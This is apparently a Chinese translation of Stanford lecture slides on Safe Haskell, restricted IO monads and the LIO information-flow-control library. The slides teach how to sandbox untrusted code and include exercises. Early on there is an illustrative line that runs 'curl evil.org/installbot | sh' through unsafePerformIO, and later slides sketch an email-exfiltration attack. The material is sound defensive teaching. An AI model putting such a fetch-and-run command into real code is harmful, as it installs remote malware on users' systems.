





# 不受信任的代码

+   假设你想在 Haskell 应用程序中合并不受信任的代码。

+   例如：一些第三方翻译软件

    +   你建立了一个 Web 服务器。

    +   想要在每个网页上添加一个“翻译为猪拉丁语”的按钮

    +   使用此函数下载一些随机代码。

        ```
        toPigLatin :: L.ByteString -> L.ByteString
        ```

+   如果你能信任类型（没有`IO`），这将是安全的运行

    +   最坏的情况是，用户在网页上看到了乱码文本。

+   然而，如果你有？

    ```
    toPigLatin = unsafePerformIO $ do system "curl evil.org/installbot | sh" return "Ia owna ouya"
    ```

## [安全的 Haskell](http://www.haskell.org/ghc/docs/latest/html/users_guide/safe-haskell.html)

+   从 GHC 7.2 开始，`-XSafe`选项启用[���全的 Haskell](http://www.haskell.org/ghc/docs/latest/html/users_guide/safe-haskell.html)

    +   由我们自己的 CA，David Terei 提供

+   安全的 Haskell 禁止导入任何不安全的模块。

    +   例如，不能导入`System.IO.Unsafe`，因此不能调用`unsafePerformIO`。

+   安全导入（通过`-XUnsafe`启用）要求导入是安全的。

    ```
    import safe PigLatin (toPigLatin)
    ```

    +   上述应该保证`toPigLatin`不调用不安全的函数。

+   但等等… `toPigLatin`不是使用 ByteString 吗？

    ```
    head :: {- Lazy -} ByteString -> Word8 head Empty = errorEmptyList "head" head (Chunk c _) = S.unsafeHead c unsafeHead :: {- Strict -} ByteString -> Word8 unsafeHead (PS x s l) = assert (l > 0) $ inlinePerformIO $ withForeignPtr x $ \p -> peekByteOff p s
    ```

## 安全与可信赖

+   编译为`-XSafe`的模块只能导入安全模块。

    +   就好像所有导入都隐含具有`safe`关键字一样。

+   但有*两种*安全模块

    1.  编译器验证为安全的模块，编译`-XSafe`。

    1.  作者断言的模块，编译为`-XTrustworthy`

+   因此，像`Data.ByteString`这样的模块可以编译为`-XTrustworthy`

    +   将不安全的函数放在单独的`Data.ByteString.Unsafe`模块中。

    +   断言`Data.ByteString`的导出符号不能被不安全地使用，即使模块内部使用不安全函数

+   当然，可能会或可能不会信任模块作者。

    +   可以根据每个包的情况指定是否遵守`-XTrustworthy`。

    +   标志`-fpackage-trust`启用了这种每个包的信任

    +   使用标志，`-trust` *Pkg*，`-distrust` *Pkg*，`-distrust-all-packages`。

    +   还可以使用`ghc-pkg`为一个包设置默认值

## 如果不受信任的代码需要执行 IO 怎么办？

+   假设你想要翻译成一种真实语言。

    +   通常需要大量数据集。

    +   不受信任的代码至少需要执行文件 IO。

    +   或者可能最容易将文本发送到网络上，例如 Google 翻译。

+   想法：使用*受限制的*IO Monad，`RIO`

    +   不受信任的第三方实现了`googleTranslate`函数。

        ```
        googleTranslate :: Language -> L.ByteString -> RIO L.ByteString
        ```

    +   但是使用`RIO` Monad，而不是`IO`

    +   实现`RIO`函数以访问网络、文件系统。

    +   使函数拒绝*危险*操作

    +   可以通过操作导入来使用相同名称和端口`IO`代码转换为`RIO`。

## 例如：假设的`RIO` Monad

```
{-# LANGUAGE Trustworthy #-} module RIO (RIO(), runRIO, RIO.readFile) where -- Notice that symbol UnsafeRIO is not exported from this module! newtype RIO a = UnsafeRIO (IO a) runRIO :: RIO a -> IO a runRIO (UnsafeRIO io) = io instance Monad RIO where ... -- Returns True iff access is allowed to file name pathOK :: FilePath -> IO Bool pathOK file = -- policy, e.g., only allow files in /tmp readFile :: FilePath -> RIO String readFile file = UnsafeRIO $ do ok <- pathOK file if ok then Prelude.readFile file else return ""
```

+   注意`newtype`的使用 - `RIO`在运行时与`IO`相同。

    +   任何人都可以使用`runRIO`将`RIO`操作转换为`IO`操作。

    +   但是不能从`IO`创建`RIO`操作而不使用`UnsafeRIO`。

## 练习：实现`RIO` Monad 实例。

```
newtype RIO a = UnsafeRIO (IO a) runRIO :: RIO a -> IO a runRIO (UnsafeRIO io) = io
```

+   起始代码：`wget` [`cs240h.stanford.edu/RIO.hs`](http://cs240h.scs.stanford.edu/RIO.hs)

```
GHCi, version 7.8.2: http://www.haskell.org/ghc/ :? for help ... *RIO> writeFile "/tmp/hello" "Hello, world\n" *RIO> runRIO $ RIO.readFile "/tmp/hello" "Hello, world\n" *RIO> runRIO $ RIO.readFile "/etc/passwd" "" *RIO> 
```

+   奖励：以下`runRIO`的替代定义有什么问题？

```
newtype RIO a = UnsafeRIO { runRIO :: IO a }
```

## 解决方案

```
newtype RIO a = UnsafeRIO (IO a)
```

+   Monad 解决方案：

```
instance Monad RIO where return = UnsafeRIO . return m >>= k = UnsafeRIO $ runRIO m >>= runRIO . k fail = UnsafeRIO . fail
```

+   奖励解决方案：

    +   问题在于选择器可以用于*更新*状态。

    +   导出`runRIO`等同于导出`UnsafeRIO`。

    ```
    badRIO :: IO a -> RIO a badRIO io = (fail "ha ha") { runRIO = io }
    ```

    +   可以从`RIO`内执行任意`IO`操作：

    ```
    *Main> runRIO $ badRIO $ putStrLn "gotcha" gotcha
    ```

## RIO 的示例策略

+   只在某些沙盒子目录下读写文件

    +   保护大部分文件系统免受不受信任的代码的影响

+   不允许执行其他程序

    +   将逃离`RIO`限制

+   只允许连接到端口 80，并且只能连接到已知服务器

    +   不希望不受信任的代码发送垃圾邮件，攻击 mysql 等

+   不允许访问设备

    +   麦克风，摄像头，扬声器等

+   类似于适用于浏览器中的 Java/JavaScript 的策略

## 为什么 RIO 不够

+   如果网站包含私人数据，例如电子邮件，怎么办？

+   恶意`googleTranslate`函数的攻击：

    +   在`/sandbox`下保存私人电子邮件的副本（允许）

    +   当要求翻译特殊字符串时，返回存储的电子邮件

    +   攻击者向自己发送带有特殊字符串的电子邮件以读取存储的电子邮件

+   另一个攻击

    +   向攻击者自己的网站发送查询，而不是 Google

+   问题：确实需要跟踪哪些信息是敏感的

    +   可以通过网络发送公共数据

    +   不可以发送电子邮件（或者可能只能发送到特定的 Google URL）

    +   可以写文件，但必须跟踪哪些文件包含谁的电子邮件

+   解决方案：分散式信息流控制（DIFC）

## 什么是 DIFC？


+   IFC 起源于军事应用和机密数据

+   系统中的每个数据都有一个标签

+   每个进程/线程都有一个标签

+   标签部分由 ⊑ （“可以流向”）排序

+   示例：Emacs（标记为*L*[E]）访问文件（标记为*L*[F]）

## 什么是 DIFC？


+   IFC 起源于军事应用和机密数据

+   系统中的每个数据都有一个标签

+   每个进程/线程都有一个标签

+   标签部分由 ⊑ （“可以流向”）排序

+   示例：Emacs（标记为*L*[E]）访问文件（标记为*L*[F]）

    +   文件读取？信息从文件流向 emacs。系统要求*L*[F] ⊑ *L*[E]。

## 什么是 DIFC？


+   IFC 起源于军事应用和机密数据

+   系统中的每个数据都有一个标签

+   每个进程/线程都有一个标签

+   标签部分由 ⊑ （“可以流向”）排序

+   示例：Emacs（标记为*L*[E]）访问文件（标记为*L*[F]）

    +   文件读取？信息从文件流向 emacs。系统要求*L*[F] ⊑ *L*[E]。

    +   文件写入？信息双向流动。系统强制执行*L*[F] ⊑ *L*[E]和*L*[E] ⊑ *L*[F]。

## 标签是传递的



+   ⊑ 是一个传递关系 - 这样更容易推理安全性

+   示例：标记文件，使其无法流向互联网

    +   策略不受其他软件的影响

## 标签是传递的



+   ⊑ 是一个传递关系 - 这样更容易推理安全性

+   示例：标记文件，使其无法流向互联网

    +   策略不受其他软件的影响

+   假设一个有错误的应用程序读取文件（例如，桌面搜索）。

## 标签是传递的。



+   ⊑ 是一个传递关系 - 这样更容易推理安全性。

+   例如：标记文件，使其无法流向互联网。

    +   策略不受其他软件的影响。

+   假设一个有错误的应用程序读取文件（例如，桌面搜索）。

    +   标记为*L*[bug]的进程读取文件，因此必须满足*L*[*F*] ⊑ *L*[bug]。

    +   但是*L*[*F*] ⊑ *L*[bug] ∧ *L*[bug] ⊑ *L*[net] ⇒ *L*[*F*] ⊑ *L*[net]，因此*L*[bug] ! ⊑ *L*[net]。

## 标签是传递的。



+   ⊑ 是一个传递关系 - 这样更容易推理安全性。

+   例如：标记文件，使其无法流向互联网。

    +   策略不受其他软件的影响。

+   相反，任何可以写入网络的应用程序都无法读取文件。

## 标签形成一个格。


+   考虑两个用户，*A*和*B*。

    +   公共数据标签*L*[∅]，*A*的私有数据标签*L*[*A*]，*B*的私有数据标签*L*[*B*]。

+   如果在单个文档中混合*A*和*B*的私有数据会发生什么？

    +   *A*和*B*都应该关注这样一个文件的发布。

    +   至少需要一个标签，其限制性至少与*L*[*A*]和*L*[*B*]一样严格。

    +   使用*L*[*A*]和*L*[*B*]的最小上界（也称为*join*），写作*L*[*A*] ⊔ *L*[*B*]。

## **D**IFC 是**D**ecentralized。



+   每个进程都有一组特权。

+   行使特权*p*会改变标签要求。

    +   *L*[*F*] ⊑ [*p*] *L*[proc]以读取，并且另外*L*[proc] ⊑ [*p*] *L*[*F*]以写入文件。

    +   ⊑ [*p*]（``可以在特权*p*下流动''）比 ⊑更宽松。

+   想法：设置标签，以便知道谁具有相关特权。

## 示例特权。


+   再次考虑简单的两用户格。

+   让*a*表示用户*A*的特权，*b*表示用户*B*的特权。

+   显然*L*[*A*] ⊑ [*a*] *L*[∅]和*L*[*B*] ⊑ [*b*] *L*[∅]。

    +   用户应该能够公开或*解密*自己的私有数据。

+   用户还应该能够*部分解密*数据。

    +   即，*L*[*A**B*] ⊑ [*a*] *L*[*B*]和*L*[*A**B*] ⊑ [*b*] *L*[*A*]。

## 示例特权。


+   行使特权*a*实际上意味着：

    +   *L*[*A*]变得等同于*L*[∅]。

    +   *L*[*A*]*B*变得等同于*L*[*B*]。

## `Sec`单子[[Russo]](http://www.cse.chalmers.se/~russo/seclib.htm)，[[Russo]](http://www.cse.chalmers.se/~russo/eci11/lectures/index.shtml)。

+   让我们在 Haskell 的类型系统中编码一个非常简单的两点格。

    +   让类型`H`表示秘密（“高”）数据，`L`表示公共（“低”）数据。

    ```
    {-# LANGUAGE Unsafe #-} Module Sec where data L = Lpriv data H = Hpriv
    ```

    +   类型表示保密级别，构造函数表示特权。

    ```
    {-# LANGUAGE Trustworthy #-} Module Sec.Safe (module Sec) where import Sec (L, H, Sec, sec, open, up)
    ```

    +   让我们还（在模块`Sec`中）在类型系统中表示格（*L* ⊑ *H*）。

    ```
    class Flows sl sh where instance Flows L L instance Flows L H instance Flows H H -- Notice no instance for Flows H L
    ```

## `Sec`单子（续）

+   让我们通过将模块`Sec`添加到单子中来保护秘密值。

    +   定义两个单子，`Sec H`用于高数据，`Sec L`用于低数据。

    ```
    newtype Sec s a = MkSec a instance Monad (Sec s) where return x = MkSec x MkSec a >>= k = k a
    ```

    +   允许任何人为值设置标签，但需要特权才能取消标签

    ```
    label :: a -> Sec s a label x = MkSec x unlabel :: Sec s a -> s -> a unlabel (MkSec a) s = s `seq` a -- s (H or L) acts like key
    ```

    +   注意`seq`调用，确保“`unlabel undefined secval`”会崩溃

    +   允许根据 ⊑ 关系重新标记数据

    ```
    relabel :: (Flows lin lout) => Sec lin a -> Sec lout a relabel (MkSec val) = MkSec val
    ```

## 应用`Sec`单子

+   不受信任的代码只能在`Sec`单子中访问敏感数据

+   可能的策略：

    +   标记为`Sec L`的数据可以发送到网络

    +   标记为`Sec H`的数据只能发送到 Google

    +   通过提供特定受信任的函数实现

    ```
    queryGoogle :: Sec H L.ByteString -> IO (Sec H L.ByteString) queryGoogle labeledQuery = do let query = unlabel Hpriv labeledQuery -- code is privileged, ... -- so have Hpriv
    ```

+   这不是一个非常令人满意的解决方案

    +   查询 Google 的决定不能依赖于数据

    +   所以我们并没有真正获得单子的全部好处（更像`Applicative`）

## `IO` 和 `Sec`

+   如果我们将`Sec`和`IO`结合会怎样？

    ```
    untrustedTranslate :: Sec H L.ByteString -> Sec H (IO L.ByteString)
    ```

+   运行这个计算是安全的吗？

## `IO` 和 `Sec`

+   如果我们将`Sec`和`IO`结合会怎样？

    ```
    untrustedTranslate :: Sec H L.ByteString -> Sec H (IO L.ByteString)
    ```

+   运行这个计算是安全的吗？**不！**

    ```
    untrustedTranslate secbs = do bs <- secbs return $ do writeFile "PublicFile" bs -- oops, pwned {- query Google for translation -}
    ```

+   让我们在`SecIO`单子中结合`RIO`和`Sec`的想法

    ```
    newtype SecIO s a = MkSecIO (IO (Sec s a)) instance Monad (SecIO s) where return x = MkSecIO (return (return x)) MkSecIO m >>= k = MkSecIO $ do MkSec a <- m let MkSecIO m' = k a m' run :: SecIO s a -> IO (Sec s a) run (MkSecIO m) = m
    ```

## `SecIO` 单子

+   允许在`SecIO`单子中访问`Sec`值：

    ```
    value :: Sec s a -> SecIO s a value sa = MkSecIO (return sa)
    ```

+   可以通过在`Sec`中包装来自`SecIO L`的高值返回：

    ```
    plug :: Less sl sh => SecIO sh a -> SecIO sl (Sec sh a)
    ```

+   如何表示文件（类似于`IORef`等）？

    ```
    -- Must encode level of file in type, path of file in value type File s = SecFilePath String readFileSecIO :: File s -> SecIO s' (Sec s String) writeFileSecIO :: File s -> String -> SecIO s ()
    ```

## `SecIO` 翻译器

+   仍然需要特权函数

    ```
    queryGoogle :: Sec H L.ByteString -> SecIO H L.ByteString
    ```

    +   代表 Google 受信任高数据的事实

    +   有道理需要实现这个来编码策略

+   现在按以下方式实现不受信任的代码

    ```
    untrustedTranslate :: Sec H L.ByteString -> SecIO H L.ByteString
    ```

    +   函数可以调用`queryGoogle`，但不能将数据发送到其他地方

+   `SecIO` 大部分强制在编译时进行

+   问题：对于电子邮件，真的希望为每个*用户*单独设置标签

    +   用户动态添加，因此很难用`Flows`编码这一点…

## LIO 单子[[Stefan]](http://www.cse.chalmers.se/~russo/publications_files/haskell11.pdf)

+   `cabal install` [`lio`](http://hackage.haskell.org/package/lio)

+   想法：让我们在运行时*动态*跟踪标签

    +   跟踪*当前标签*和最大标签或*许可*的后门

    +   为每个线程关联一个`LIOState`：

    ```
    -- Note type parameter l just specifies the label type data LIOState l = LIOState { lioLabel, lioClearance :: !l }
    ```

+   现在制作类似`RIO`的单子，禁止原始`IO`

    ```
    {-# LANGUAGE Unsafe #-} newtype LIO l a = LIOTCB (IORef (LIOState l) -> IO a) instance Monad (LIO l) where return = LIOTCB . const . return (LIOTCB ma) >>= k = LIOTCB $ \s -> do a <- ma s case k a of LIOTCB mb -> mb s
    ```

    +   所以最初，在`RIO`单子中不能进行*任何* IO

## 用于特权代码的后门

+   想法：可信代码用标签检查包装 IO 操作

+   需要一些 IO 的后门只为可信代码：

    ```
    {-# LANGUAGE Unsafe #-} ioTCB :: IO a -> LIO l a -- back door for privileged code ioTCB = LIOTCB . const -- to execute arbitrary IO actions
    ```

+   也很方便能够访问状态：

    ```
    getLIOStateTCB :: LIO l (LIOState l) getLIOStateTCB = LIOTCB readIORef putLIOStateTCB :: LIOState l -> LIO l () putLIOStateTCB s = LIOTCB $ \sp -> writeIORef sp $! s modifyLIOStateTCB :: (LIOState l -> LIOState l) -> LIO l () modifyLIOStateTCB = getLIOStateTCB >>= putLIOStateTCB . f
    ```

+   注意重要的约定：以…`TCB`结尾的符号永远不可用于安全模块

## 在 Haskell 中实现标签

+   实现标签作为值是直接的：

    ```
    Module LIO.Label class (Eq l, Show l, Read l, Typeable l) => Label l where  lub :: l -> l -> l  glb :: l -> l -> l infixl 5 `lub` `glb`  canFlowTo :: l -> l -> Bool infix 4 `canFlowTo`
    ```

+   特权怎么样？

    +   想知道一个特权是否包含另一个特权

    ```
    class (Typeable p, Show p) => SpeaksFor p where  speaksFor :: p -> p -> Bool
    ```

    +   特权如何影响``canFlowTo``关系

    ```
    class (Label l, SpeaksFor p) => PrivDesc l p where  downgradeP :: p -> l -> l -- compute "lowest" equivalent label  canFlowToP :: p -> l -> l -> Bool canFlowToP p l1 l2 = downgradeP p l1 `canFlowTo` l2
    ```

## 练习：实现一个`Label`实例

```
data Level = Public | Secret | TopSecret data Compartment = Nuclear | Crypto data MilLabel = MilLabel { level :: Level , compartments :: Set Compartment }
```


+   `wget` [`cs240h.stanford.edu/millattice.hs`](http://cs240h.scs.stanford.edu/millattice.hs)

+   奖励：编写一些快速检查属性

## 解决方案

+   标签实例

    ```
    instance Label MilLabel where lub a b = MilLabel (max (level a) (level b)) (Set.union (compartments a) (compartments b)) glb a b = MilLabel (min (level a) (level b)) (Set.intersection (compartments a) (compartments b)) canFlowTo a b = level a <= level b && compartments a `Set.isSubsetOf` compartments b
    ```

+   一些快速检查实例

    ```
    prop_irreflexive :: MilLabel -> MilLabel -> Bool prop_irreflexive l1 l2 = if l1 == l2 then l1 `canFlowTo` l2 && l2 `canFlowTo` l1 else not (l1 `canFlowTo` l2 && l2 `canFlowTo` l1) prop_lub :: MilLabel -> MilLabel -> Bool prop_lub l1 l2 = l1 `canFlowTo` l3 && l2 `canFlowTo` l3 where l3 = l1 `lub` l2
    ```

## 调整和检查标签

+   在读取任何标记为`newl`的数据之前，调整/检查`LIOState`

    ```
    taint :: Label l => l -> LIO l () taint newl = do LIOState { lioLabel = l, lioClearance = c } <- getLIOStateTCB let l' = l `lub` newl unless (l' `canFlowTo` c) $ labelError "taint" [newl] modifyLIOStateTCB $ \s -> s { lioLabel = l' }
    ```

+   在写入任何标记为`newl`的数据之前，调整/检查`LIOState`

    ```
    guardWrite :: Label l => l -> LIO l () guardWrite newl = do LIOState { lioLabel = l, lioClearance = c } <- getLIOStateTCB unless (canFlowTo l newl && canFlowTo newl c) $ labelError "guardWrite" [newl] withContext "guardWrite" $ taint newl
    ```

## 特权 vs. 特权描述

+   希望能够在任何上下文中命名/检查特权

+   通过在受保护的`newtype`中包装*体现*特权

    ```
    newtype Priv a = PrivTCB a deriving (Show, Eq, Typeable) instance Monoid p => Monoid (Priv p) where mempty = PrivTCB mempty mappend (PrivTCB m1) (PrivTCB m2) = PrivTCB $ m1 `mappend` m2 privDesc :: Priv a -> a privDesc (PrivTCB a) = a
    ```

    +   给定一个`Priv`，可以通过`privDesc`获取描述，但反之则不行

+   如何首先创建特权？

    +   在程序开始时在`IO`中生成它们，然后调用`LIO`

    ```
    privInit :: p -> IO (Priv p) privInit p = return $ PrivTCB p
    ```

    +   记住，如果坏人可以执行任意的`IO`代码，游戏就结束了

## 使用`Priv`对象

+   许多 LIO 函数都有…`P`变体，需要特权

    +   例如，将对`taint`的调用替换为对`taintP`的调用：

    ```
    taintP :: PrivDesc l p => Priv p -> l -> LIO l () taintP p newl = do LIOState { lioLabel = l, lioClearance = c } <- getLIOStateTCB let l' = l `lub` downgradeP p newl unless (l' `canFlowTo` c) $ labelErrorP "taintP" p [newl] modifyLIOStateTCB $ \s -> s { lioLabel = l' }
    ```

+   还可以委托权限、将它们包装在闭包中，或通过“门控”闭包来检查它们

    ```
    delegate :: SpeaksFor p => Priv p -> p -> Priv p newtype Gate p a = GateTCB (p -> a) deriving Typeable gate :: (p -> a) -> Gate p a gate = GateTCB callGate :: Gate p a -> Priv p -> a callGate (GateTCB g) = g . privDesc
    ```

## 包装 IO 抽象

+   许多 LIO 抽象只是 LIO 本身再加上一个标签

    ```
    data LObj label object = LObjTCB !label !object deriving (Typeable)
    ```

+   `blessTCB`助手使构建 LIO 函数变得容易

    +   通过函数依赖的魔法

    ```
    {-# LANGUAGE Trustworthy #-} import LIO.TCB.LObj type LMVar l a = LObj l (MVar a) takeLMVar :: Label l => LMVar l a -> LIO l a takeLMVar = blessTCB "takeLMVar" takeMVar tryTakeLMVar :: Label l => LMVar l a -> LIO l (Maybe a) tryTakeLMVar = blessTCB "tryTakeLMVar" tryTakeMVar putLMVar :: Label l => LMVar l a -> a -> LIO l () putLMVar = blessTCB "putLMVar" putMVar
    ```

## LIO 应用程序

+   主要应用是[Hails](http://hails.scs.stanford.edu/)网络框架

    +   实际上是一个用于创建托管相互不信任应用程序的网络*平台*的框架

+   例如：[GitStar](http://gitstar.com/)

    +   可能托管私有 git 仓库

    +   例如，用于语法高亮代码的功能不能泄露私有源代码

+   斯坦福正在进行的研究
